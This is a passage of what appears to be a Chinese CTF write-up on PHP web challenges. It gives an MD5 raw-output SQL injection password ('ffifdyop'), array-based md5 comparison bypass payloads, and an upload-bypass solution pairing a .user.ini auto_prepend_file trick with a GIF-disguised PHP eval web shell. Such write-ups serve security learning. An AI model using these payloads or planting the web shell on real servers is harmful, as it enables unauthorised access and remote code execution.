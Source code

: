 ``select * from 'admin' where password=md5($pass,true)``

``password=ffifdyop``

原理：ffifdyop这个字符串被md5后变成276f722736c95d99e921722cf9ed621c，十六进制转ascii的前几位刚好是 'or '6,

Mysql数据库会把十六进制(hex)转为ascii解释,拼接后变成select * from 'admin' where password='' or '6xxxxx', 这里or为永真式，相当于万能密码，可绕过md5函数

接着第二关源码如下：
```php
$a = $GET['a'];
$b = $_GET['b'];

if($a != $b && md5($a) == md5($b)){
    // wow, glzjin wants a girl friend.
```

payload如下：
``a[]=1&b[]=2``

第三关源码如下:
```php
error_reporting(0);
include "flag.php";

highlight_file(__FILE__);

if($_POST['param1']!==$_POST['param2']&&md5($_POST['param1'])===md5($_POST['param2'])){
    echo $flag;
}
```

payload如下:
```
param1[]=1&param2[]=2
```
**Resource**
这里有很不错的详解原理
https://www.cnblogs.com/h3zh1/p/12656446.html

## SUCTF-2019-CheckIn

考点: .user.ini后门
条件: 
- 服务器脚本语言为PHP
- 服务器使用CGI／FastCGI模式
- 上传目录下要有可执行的php文件

.user.ini
```
GIF89a
auto_prepend_file=a.jpg
```

a.jpg
```php
GIF89a
<script language="php">eval($_REQUEST[shell]);</script>
```
